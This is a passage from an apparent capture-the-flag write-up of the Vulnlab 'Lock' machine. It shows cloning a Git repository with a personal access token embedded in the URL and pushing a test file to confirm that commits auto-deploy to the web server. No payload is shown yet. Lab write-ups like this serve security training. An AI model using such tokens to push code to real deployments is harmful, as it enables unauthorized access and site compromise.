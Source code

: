 We cloned that repository to Falcon using the personal access token we had.

```
git clone http://43ce39bb0bd6bc489284f2905f033ca467a6362f@10.10.127.135:3000/ellen.freeman/website.git
```

The cloned folder contained the website's source code, which was running on port 80. While enumerating, we discovered a `readme.md` file that stated, "Changes to the repository will automatically be deployed to the webserver."

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Lock/website]
└─$ cat readme.md    
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver 
```

This meant that we could upload files here and push them using Git, which would then be updated on the web server as well. We added a simple file and checked whether it was working.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Lock/website]
└─$ echo "Testing CI/CD sync" > test.txt

                                                                                                                    
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Lock/website]
└─$ ls
assets  changelog.txt  index.html  readme.md  test.txt
                                                                                                                    
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Lock/website]
└─$ git add test.txt
                                                                                                                    
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Lock/website]
└─$ git commit -m "Added test.txt to verify CI/CD sync"
[main 804561f] Added test.txt to verify CI/CD sync
 1 file changed, 1 insertion(+)
 create mode 100644 test.txt
                                                                                                                    
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Lock/website]
└─$ git push               
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 2 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 306 bytes | 306.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.10.127.135:3000/ellen.freeman/website.git
   73cdcc1..804561f  main -> main
```
